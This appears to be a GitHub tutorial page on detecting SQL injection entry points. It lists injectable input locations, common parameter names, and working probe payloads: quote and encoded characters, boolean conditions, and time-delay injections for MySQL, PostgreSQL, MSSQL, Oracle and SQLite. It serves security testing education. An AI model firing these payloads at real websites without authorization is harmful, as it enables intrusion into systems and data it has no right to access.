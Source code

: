 - ## [Injection Points](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#injection-points-1)
- ## [List of Parametes](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#list-of-parameters)
- ## Giving Inputs
  
     * Error Based
     * True False Based 
     * Timing Attacks
     * Merging Characters
---

### Injection Points  
We should check for areas where ever we can give inputs like ==>
- Login Form
- Url Search Parameters
- Url id values
- Cookie Values
- XML encoded values like <storeId>**</storeId>
- Form Input Sections
- File Upload Sections
### List of parameters
    id
    select
    report
    role
    update
    query
    user
    name
    sort
    where
    search
    params
    process
    row
    view
    table
    from
    sel
    results
    sleep
    fetch
    order
    keyword
    column
    field
    delete
    string
    number
    filter

## Giving Inputs
### Error Based
We try to trigger any SQL error by applying these characters and strings
- Simple characters `'`, `"`, `;`, `)`
- Simple characters encoded: `%27`, `%22`, `%23`, `%3B`, `%29` and `%2A`
- Multiple encoding: `%%2727`, `%25%27`
- Unicode characters: `U+02BA`, `U+02B9`
### True False Based
Here we are trying to enter true and false logics. In some casses the website behaves differently to the true and false condition.

    and 1
    and true
    ' -- true
    page.asp?id=1 or 1=1 -- true
    page.asp?id=1' or 1=1 -- true
    page.asp?id=1" or 1=1 -- true
    page.asp?id=1 and 1=2 -- false
### Timing Attacks
Inputting different SQL commands to hit a time delay that can suggest the website may be vulnerable

    MySQL (string concat and logical ops)
    1' + sleep(10)
    1' and sleep(10)
    1' && sleep(10)
    1' | sleep(10)
    
    PostgreSQL (only support string concat)
    1' || pg_sleep(10)
    
    MSQL
    1' WAITFOR DELAY '0:0:10'
    
    Oracle
    1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
    1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
    
    SQLite
    1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
    1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))






    
